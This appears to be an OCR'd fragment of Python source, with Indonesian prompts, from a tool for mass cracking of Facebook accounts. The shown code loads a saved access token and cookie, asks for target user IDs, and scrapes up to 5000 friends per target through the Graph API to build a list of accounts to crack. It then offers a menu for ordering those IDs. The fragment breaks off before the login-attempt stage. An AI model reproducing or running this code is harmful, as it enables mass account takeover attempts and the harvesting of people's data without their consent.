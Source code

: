                  print(' [+] Pertemanan Tidak Publick Atau Cookie And Token Anda Busuk') 
                 exit() 
 #-------------------[ CRACK-PUBLIK ]----------------# 
 def dump_massal(): 
         try: 
                 token = open('.token.txt','r').read() 
                 cok = open('.cok.txt','r').read() 
         except IOError: 
                 exit() 
         try: 
                 cetak(panel('\t            [bold white]Ketik [bold green]Me[/] Jika Ingin Crack Pertemanan Sendiri',width=90,title=f"[bold green]Crack Massal",style=f"bold white")) 
                 jum = int(input(f' [+] Mau Berapa Idz Target  : ')) 
         except ValueError: 
                 print(' [+] Wrong input ') 
                 exit() 
         if jum<1 or jum>80: 
                 print(f' [+] Pertemanan Tidak Publik  ') 
                 exit() 
         ses=requests.Session() 
         yz = 0 
         for met in range(jum): 
                 yz+=1 
                 kl = input(f' [+] Masukan Idz Target Yang Ke '+str(yz)+' : ') 
                 uid.append(kl) 
         for userr in uid: 
                 try: 
                         col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json() 
                         for mi in col['friends']['data']: 
                                 try: 
                                         iso = (mi['id']+'|'+mi['name']) 
                                         if iso in id:pass 
                                         else:id.append(iso) 
                                 except:continue 
                 except (KeyError,IOError): 
                         pass 
                 except requests.exceptions.ConnectionError: 
                         print(' [+] Unstable Signal ') 
                         exit() 
         try: 
                 print(f' [+] Total Idz Target Yang Terkumpul : {h}'+str(len(id))) 
                 setting() 
         except requests.exceptions.ConnectionError: 
                 print(f'') 
                 print(' [+] Unstable Signal ') 
                 exit() 
         except (KeyError,IOError): 
                 print(f' [+] Pertemanan Tidak Public ') 
                 time.sleep(3) 
                 exit() 
 #-------------[ PENGATURAN-IDZ ]---------------# 
 def setting(): 
         cetak(panel(f'[bold white][[bold cyan]01[/][bold white]][/] [bold white]Crack Idz Old Ke New [[bold red]Not Recommended[bold white]][/]\n[bold white][[bold cyan]02[/][bold white]][/] [bold white]Crack Idz New Ke Old [[bold green]Very Recommended[bold white]][/]\n[bold white][[bold cyan]03[/][bold white]][/] [bold white]Crack Idz Random [[bold green]Very Recommended[bold white]][/]',width=90,padding=(0,8),title=f"[bold green]Setting Urutan Idz",style=f"bold white")) 
         hu = input(f' [+] Pilih Urutan Idz : ') 
         if hu in ['1','01']: 
                 for tua in sorted(id): 
                         id2.append(tua) 
  